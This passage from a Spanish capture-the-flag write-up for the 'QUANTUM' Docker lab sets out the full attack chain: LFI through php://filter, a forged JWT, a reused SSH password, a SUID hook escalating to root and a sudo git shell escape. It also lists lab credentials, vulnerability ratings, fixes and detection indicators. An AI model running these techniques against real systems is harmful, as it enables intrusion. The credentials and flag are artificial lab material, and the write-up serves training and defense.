(`setpriv`). Es un vector lateral real, no la ruta crítica: el SUID `backup` ya da root directamente.



### 7.3 Otros hallazgos

| Hallazgo | Impacto |
|---|---|
| `GET /user/<id>` sin autenticación | Enumeración de usuarios y roles (IDOR) |
| Listado de `/quantum/pages/` | Divulgación de estructura interna |
| `PasswordAuthentication yes` en SSH | Fuerza bruta / password spraying viable |
| `Server` y versiones expuestas | Fingerprint de Apache, OpenSSH y Werkzeug |
| `.env` con placeholder en el commit actual | Falsa sensación de limpieza; el secreto sigue en el historial |

---

## 8. Validación de la bandera

La bandera se contrastó con el validador oficial del laboratorio (`startlab.sh`), que la compara con
`/root/flag.txt` dentro del contenedor:

```bash
printf 'QUANTUM{qu4ntum_3nt4ngl3m3nt_c0mpl3t3d}\n' | bash startlab.sh quantum.tar
```

```text
LAB: QUANTUM
DIFICULTAD: ★★★★★☆☆☆ dificil (5 puntos)
IP del laboratorio: 172.17.0.2

Ingresa la flag (formato QUANTUM{...}):
¡Felicitaciones! Has conquistado QuantumAI.

FECHA Y HORA: 2026-10-23 16:21:31 -0600
```



La captura real del terminal, tomada a las **16:22:59 -0600**, confirma la misma bandera:



> El validador **recrea el contenedor** al ejecutarse. Por eso el QUANTUM actual está limpio y las
> evidencias del ataque (salidas, capturas y bandera) se conservan en local, en `recon/`, `loot/` y
> `docs/img/`.

---

## 9. Ruta completa de ataque

| Paso | Acción | Resultado |
|---|---|---|
| 1 | `nmap -p- 172.17.0.2` | SSH 22 · Apache 80 · Werkzeug 5000 |
| 2 | `gobuster` con DirBuster medium | `/quantum/` y `/quantum/pages/` |
| 3 | `?page=/etc/passwd` y `?page=php://filter/...` | LFI; lectura arbitraria como `www-data` |
| 4 | Lectura de `index.php` | `include($page)` directo si no existe `pages/$page.php` |
| 5 | Lectura de `/start.sh` y `/opt/api/app.py` | `SECRET_KEY` y `researcher:Quant0mR3s34rch` |
| 6 | `POST /auth` + `jwt_forge.py` | Token de usuario y token `admin`; `/admin` accesible |
| 7 | `ssh researcher@172.17.0.2` | `uid=1000(researcher)` |
| 8 | `sudo -n -l` | Sin regla; el vector no es sudo |
| 9 | `find / -perm -4000` | `/usr/local/bin/backup` (SUID root) |
| 10 | Hook en `/tmp/.backup-hook` + `backup` | `uid=0(root)`; `/root/flag.txt` |
| 11 | Introducir la flag en el validador | «¡Felicitaciones! Has conquistado QuantumAI.» |

```text
   web :80  (Apache por defecto · señuelo)
        │  gobuster → /quantum/
        ▼
   /quantum/?page=  (LFI · include() directo)
        │  php://filter → /opt/api/app.py
        ▼
   app.py  (SECRET_KEY + researcher:Quant0mR3s34rch)
        │  SSH · contraseña reutilizada
        ▼
   researcher  (uid 1000 · sin sudo)
        │  SUID /usr/local/bin/backup
        ▼
   /tmp/.backup-hook  (world-writable · se ejecuta como root)
        ▼
   ROOT  →  /root/flag.txt
```

---

## 10. Vulnerabilidades encontradas

| # | Severidad | Vulnerabilidad | Ubicación | CWE / Control |
|---|---|---|---|---|
| 1 | **Crítica** | LFI con `include()` directo sobre la ruta del usuario | `/quantum/index.php` (`?page=`) | CWE-98 / CWE-22 |
| 2 | **Crítica** | SUID root ejecuta un hook en `/tmp` escribible por cualquier usuario | `/usr/local/bin/backup` | CWE-426 / CWE-732 |
| 3 | **Alta** | Contraseña de sistema y secreto JWT en código legible | `/opt/api/app.py` | CWE-798 |
| 4 | **Alta** | Reutilización de la contraseña de la API como contraseña SSH | `researcher` | CWE-521 |
| 5 | **Alta** | JWT HS256 con secreto débil y hardcodeado | `/opt/api/app.py` | CWE-326 / CWE-798 |
| 6 | **Alta** | `NOPASSWD` sobre `git` como otro usuario | `/etc/sudoers` | CWE-269 |
| 7 | **Media** | Secretos en el historial de Git (`SYSADMIN_PASS`) | `/home/aidev/project/.git` | CWE-540 / CWE-798 |
| 8 | **Media** | IDOR en `/user/<id>` | API :5000 | CWE-639 |
| 9 | **Media** | Listado de directorio habilitado | `/quantum/pages/` | CWE-548 |
| 10 | **Media** | SSH con autenticación por contraseña y sin rate limiting | `/etc/ssh/sshd_config` | CWE-307 |
| 11 | **Baja** | Divulgación de versiones y stack | Cabeceras HTTP | CWE-200 |
| 12 | **Baja** | Página por defecto de Apache como señuelo | `:80` | CWE-200 |

---

## 11. Recomendaciones

1. **Eliminar la LFI.** Sustituir el `include()` dinámico por una lista blanca estricta
   (`in_array($page, ['about','research','team'])`), validar con `realpath()` y no permitir
   wrappers ni rutas absolutas. Deshabilitar `allow_url_include`.
2. **Sacar los secretos del código.** `SECRET_KEY` y la contraseña de `researcher` deben venir de un
   gestor de secretos o de variables de entorno inyectadas al arrancar, nunca de un `.py` legible
   por `www-data`. Rotar ambos secretos.
3. **No reutilizar contraseñas.** La contraseña de la API y la del sistema deben ser distintas,
   largas y únicas. Añadir MFA para cuentas con acceso a SSH.
4. **Eliminar el SUID `backup` o reducirlo.** Si se necesita, que no sea setuid root, que no ejecute
   hooks en `/tmp` y que use rutas absolutas y argumentos validados. Revisar todo el inventario SUID
   con `find / -perm -4000`.
5. **No ejecutar hooks desde directorios world-writable.** Usar un directorio propiedad de root con
   permisos `0700`, comprobar propietario y hash, y evitar `system()` con datos del usuario.
6. **Fortalecer el JWT.** Secreto aleatorio de al menos 32 bytes, rotación, `exp` corto, validación
   de `alg` y comprobación de roles en servidor. No confiar en el rol del token sin una fuente
   autoritativa.
7. **Corregir el IDOR.** Autenticar `/user/<id>` y autorizar que el solicitante solo pueda ver su
   propio perfil (o limitar a administradores).
8. **Revisar la regla sudo de `aidev`.** `NOPASSWD: /usr/bin/git` permite ejecutar cualquier
   subcomando y escapar a shell. Sustituirla por un wrapper de solo lectura con argumentos fijos o
   eliminarla. Validar con `visudo -c`.
9. **Purgar el historial de Git.** `git rm` no borra el secreto: usar `git filter-repo` o BFG,
   rotar `SYSADMIN_PASS` y añadir escaneo de secretos en CI. Revisar todos los objetos y ramas.
10. **Endurecer SSH y Apache.** Deshabilitar `PasswordAuthentication`, usar claves, limitar usuarios
    y origen, añadir Fail2Ban/rate limiting. Deshabilitar el listado de directorios y retirar la
    página por defecto.
11. **Monitorizar los patrones de este ataque:** peticiones con `php://filter`, `../` o rutas
    absolutas en `page`; ejecuciones de `/usr/local/bin/backup`; creación de `/tmp/.backup-hook`;
    uso de `sudo git`; y tokens JWT con `role: admin` emitidos fuera del flujo normal.

---

## 12. Trazabilidad: de dónde sale cada afirmación

| # | Afirmación | Origen | Artefacto |
|---|---|---|---|
| 1 | Puertos 22, 80 y 5000 abiertos | Objetivo | `recon/nmap-full.txt` |
| 2 | OpenSSH 8.9p1, Apache 2.4.52, Werkzeug 3.1.6 | Objetivo | `recon/nmap-services.txt` |
| 3 | El :80 es la página por defecto y `/quantum/` existe | Objetivo | `shots/captures/03_web_root.txt`, `04_quantum.txt`, `05_pages.txt` |
| 4 | `research.php` menciona la API Flask del :5000 | Objetivo | `shots/captures/04b_quantum_research.txt` |
| 5 | La LFI permite `/etc/passwd` y `php://filter` | Objetivo | `shots/captures/06_lfi_passwd.txt`, `07_lfi_index.txt` |
| 6 | `SECRET_KEY` y contraseña de `researcher` en `app.py` | Objetivo | `loot/app.py`, `docs/img/04-app-py.png` |
| 7 | El JWT forjado accede a `/admin` | Objetivo | `loot/api-admin.txt`, `docs/img/05-api.png` |
| 8 | `researcher:Quant0mR3s34rch` es válida por SSH | Objetivo | `loot/ssh-researcher.txt`, `docs/img/06-ssh.png` |
| 9 | `researcher` no tiene regla sudo | Objetivo | `loot/sudo-researcher.txt` |
| 10 | `/usr/local/bin/backup` es SUID root y ejecuta `/tmp/.backup-hook` | Objetivo | `loot/backup-strings.txt`, `loot/suid.txt` |
| 11 | El hook devuelve `uid=0(root)` y lee la flag | Objetivo | `loot/backup-exploit.txt`, `docs/img/07-suid.png` |
| 12 | El historial de Git filtra `SYSADMIN_PASS=SysAdm1n@Q` | Objetivo | `loot/git-history.txt`, `docs/img/08-git-history.png` |
| 13 | `sysadmin:SysAdm1n@Q` es válida por SSH | Objetivo | `loot/ssh-sysadmin.txt` |
| 14 | `/etc/sudoers` tiene `aidev ALL=(sysadmin) NOPASSWD: /usr/bin/git` | Objetivo | `loot/sudoers.txt`, `docs/img/09-sudo-git.png` |
| 15 | La regla de `git` permite ejecutar comandos como `sysadmin` | Objetivo | `loot/sudo-git.txt` |
| 16 | La bandera es `QUANTUM{qu4ntum_3nt4ngl3m3nt_c0mpl3t3d}` | Objetivo | `loot/flag.txt` |
| 17 | El validador acepta la bandera | Validador | `loot/validacion.txt`, `loot/validacion-raw.txt`, `docs/img/11-validacion.png`, `docs/img/12-validacion-real.png` |

---

## 13. Indicadores de compromiso (IOC)

| Indicador | Valor |
|---|---|
| IP atacante | `172.17.0.1` |
| IP objetivo | `172.17.0.2` |
| Hostname | `quantum` |
| Credencial API/SSH | `researcher` / `Quant0mR3s34rch` |
| Credencial SSH adicional | `sysadmin` / `SysAdm1n@Q` |
| Secreto JWT | `QuantumAPISecretKey2024_WEAK` |
| Endpoint LFI | `GET /quantum/?page=<ruta o wrapper>` |
| Patrón LFI | `php://filter/convert.base64-encode/resource=...` |
| Binario SUID abusado | `/usr/local/bin/backup` |
| Fichero de hook | `/tmp/.backup-hook` |
| Shell SUID creada | `/tmp/rootbash` |
| Ficheros leídos | `/etc/passwd`, `/etc/ssh/sshd_config`, `/start.sh`, `/opt/api/app.py`, `/etc/sudoers`, `/root/flag.txt` |
| Regla sudo lateral | `aidev ALL=(sysadmin) NOPASSWD: /usr/bin/git` |
| Comando lateral | `sudo -n -u sysadmin /usr/bin/git -c alias.pwn='!id' pwn` |
| Bandera | `QUANTUM{qu4ntum_3nt4ngl3m3nt_c0mpl3t3d}` |

---

## 14. Herramientas utilizadas

| Herramienta | Uso |
|---|---|
| `nmap` | Descubrimiento de puertos y versiones |
| `gobuster` | Enumeración de contenido web (common y DirBuster medium) |
| `curl` | LFI, API, login y comprobaciones HTTP |
| `python3` + `requests` | Lector de la LFI (`exploits/lfi_read.py`) |
| `python3` + `hmac`/`hashlib` | Forja de JWT HS256 (`exploits/jwt_forge.py`) |
| `sshpass` + `ssh` | Acceso SSH y enumeración local |
| `strings`, `file`, `ls` | Análisis del binario SUID |
| `python3` + `zlib` | Volcado de objetos Git (`exploits/git_history_dump.py`) |
| `setpriv` | Verificación de la regla sudo de `aidev` |
| `chromium` + `PIL` | Generación de las capturas PNG del writeup |

---

## 15. Estructura del repositorio

```text
QUANTUM/
├── README.md                     Este documento
├── startlab.sh                   Validador oficial del laboratorio
├── quantum.tar                   Imagen Docker del laboratorio
├── docs/img/                     Capturas del writeup
│   ├── 01-recon.png              Puertos y servicios
│   ├── 02-web.png                Del Apache por defecto a /quantum/
│   ├── 03-lfi.png                LFI y código fuente
│   ├── 04-app-py.png             Secretos en /opt/api/app.py
│   ├── 05-api.png                IDOR, JWT y token admin
│   ├── 06-ssh.png                SSH como researcher
│   ├── 07-suid.png               SUID backup → root
│   ├── 08-git-history.png        Secretos en el historial de Git
│   ├── 09-sudo-git.png           Regla sudo de aidev
│   ├── 10-cadena.png             Cadena de ataque completa
│   ├── 11-validacion.png         Validación oficial (recreación)
│   └── 12-validacion-real.png    Captura real de la validación
├── exploits/
│   ├── lfi_read.py               Lector de ficheros vía LFI
│   ├── jwt_forge.py              Forja de JWT HS256
│   └── git_history_dump.py       Volcado de objetos Git
├── recon/
│   ├── nmap-full.txt             Escaneo completo de puertos
│   ├── nmap-services.txt         Versiones y fingerprint
│   └── lfi/                      Lecturas de la LFI
├── loot/                         Evidencia del compromiso
│   ├── flag.txt                  Bandera obtenida
│   ├── validacion.txt            Salida limpia del validador
│   ├── validacion-raw.txt        Salida ANSI completa
│   ├── app.py                    Código de la API filtrado
│   ├── start.sh                  Script de arranque filtrado
│   ├── passwd.txt                /etc/passwd leído por la LFI
│   ├── quantum-index.php         Fuente de la LFI
│   ├── backup-strings.txt        Strings del SUID
│   ├── backup-exploit.txt        Hook y ejecución como root
│   ├── suid.txt                  Inventario SUID
│   ├── sudo-researcher.txt       sudo -l de researcher
│   ├── ssh-researcher.txt        Acceso como researcher
│   ├── sudoers.txt               Regla sudo de aidev
│   ├── git-history.txt           Objetos Git con el secreto
│   ├── ssh-sysadmin.txt          Acceso como sysadmin
│   ├── sudo-git.txt              Verificación de git como sysadmin
│   └── api-admin.txt             Token admin y /admin
├── notes/bitacora.md             Cronología y decisiones del análisis
├── shots/
│   ├── capture.sh                Regenera las salidas reales
│   ├── make_images.py            Genera los PNG del writeup
│   └── captures/                 Salidas crudas usadas por las imágenes
└── wordlists/                    (no usadas: no hubo fuerza bruta)
```

> ⚠️ **Las credenciales de este documento son las del laboratorio de entrenamiento.** No son
> secretos reales. Aun así, en un entorno productivo cualquiera de estos hallazgos obliga a rotar
> las credenciales expuestas, revisar los registros de Apache, SSH, sudo y Git, y comprobar si el
> acceso se produjo antes de la auditoría.
